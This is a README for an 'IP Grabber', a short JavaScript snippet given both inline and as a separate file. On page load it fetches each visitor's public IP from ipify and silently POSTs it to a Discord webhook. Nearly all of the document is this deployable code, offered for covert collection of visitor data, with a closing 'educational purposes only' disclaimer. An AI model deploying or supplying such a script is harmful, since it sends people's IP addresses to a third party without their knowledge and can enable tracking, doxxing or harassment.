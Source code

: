 <h1 align="center">IP Grabber</h1>

<p align="center">
  <strong>A simple script to grab the user's IP address and send it to a Discord webhook.</strong>
</p>


## Description

This script fetches the user's IP address using `https://api.ipify.org` and sends it to a specified Discord webhook.

## How it Works

The script leverages JavaScript's `fetch` API to dispatch a GET request to `https://api.ipify.org`, acquiring the user's IP address. Subsequently, it dispatches a POST request to a Discord webhook URL, carrying the acquired IP address as the payload. As a result, you'll receive a notification from the bot in your Discord server each time someone visits your website, containing the visitor's Public IP address. Notably, this script represents the most concise form possible.

## Usage

Just make sure to replace **`YOUR_DISCORD_WEBHOOK`** with your actual Discord webhook URL.

### Implementation in HTML File:
```html
<script>
  fetch('https://api.ipify.org')
    .then(response => response.text())
    .then(ip => {
        fetch('YOUR_DISCORD_WEBHOOK', {
            method: 'POST',
            headers: { 'Content-Type': 'application/json' },
            body: JSON.stringify({ content: ip })
        });
    });
</script>
```
### Separate JavaScript File:

```js
fetch('https://api.ipify.org')
  .then(response => response.text())
  .then(ip => {
      fetch('YOUR_DISCORD_WEBHOOK', {
          method: 'POST',
          headers: { 'Content-Type': 'application/json' },
          body: JSON.stringify({ content: ip })
      });
  });
```

## Disclaimer

**This script is provided for educational purposes only. Any use of this script to collect or share users' IP addresses without their consent may violate privacy laws and ethical principles. Ensure compliance with all relevant regulations and obtain proper authorization before deploying such functionality. Use at your own risk.**
